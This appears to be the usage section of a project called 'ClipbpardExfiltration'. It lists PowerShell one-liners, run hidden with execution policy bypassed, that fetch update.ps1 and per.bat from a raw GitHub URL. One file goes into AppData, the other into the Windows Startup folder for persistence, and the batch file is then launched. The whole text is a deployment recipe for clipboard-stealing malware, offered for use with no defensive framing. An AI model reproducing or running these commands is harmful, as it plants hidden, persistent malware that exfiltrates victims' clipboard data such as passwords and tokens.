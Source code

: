 Save update.ps1 to $env:userprofile\AppData\Roaming 

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'

Then run the bat file for the first time

    Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 




All together

```
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

```
